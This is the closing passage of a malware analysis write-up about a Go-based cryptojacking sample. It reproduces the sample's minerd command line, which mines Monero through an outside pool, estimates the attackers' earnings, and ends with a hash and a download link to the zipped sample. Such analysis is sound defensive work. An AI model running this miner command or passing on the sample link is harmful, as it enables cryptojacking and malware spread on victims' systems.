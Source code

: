 ```
/opt/minerd -B -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:8080 -u 48vKMSzWMF8TCV...vQMinrKeQ1vuxD4RTmiYmCwY4inWmvCXWbcJHL3JDwp -p x
```

As it can be appreciated, in the URL of crypto-pool, the cryptocurrency being mined is the Monero (XMR). By visiting the site and using the wallet ID, we can check the hash rate for it, and estimate the amount of money the bad guys are earning with the help of [this calculator](https://www.cryptocompare.com/mining/calculator/xmr).

![](https://i.imgur.com/12PhKVa.png)


![](https://i.imgur.com/XmNHXCv.png)



| Wallet ID | Hashrate          | Monthly earnings       |
|:---------:|------------------:|-----------------------:|
| 1         |  96.58 KH/sec     | $7,331.62              |
| 2         |  91.31 KH/sec     | $6,932.56              |
| 3         |  26.86 KH/sec     | $2,042.91              |
| __Total__ |       -           | __$16,307.09__         |

## Conclusions
Go is a language very useful for its easy syntax, and very comfortable as it has a great standard library and a big community that is being built around it, providing lots of third-party libraries. This help developers to write less code, and so to malware writers. Additionally, Go provides a great toolchain that allow the same code to be compiled for a variety of platforms and processor architectures, which we guess that is what makes Go attractive to the bad guys.

We dare to say that the time invested in writing this malware couldn't have taken more than a boring Sunday, making the monetization of this one quite outstanding.

|TYPE | HASH|  File| Password|
|:---------:|------------------:|-----------------------:|
|MD5 | 86ac68e5b09d1c4b157193bb6cb34007 | [Download](https://github.com/mlwre/mlwre.github.io/blob/master/downloads/lady/86ac68e5b09d1c4b157193bb6cb34007.zip?raw=true) |       *infected* |





The Malware Hunter.
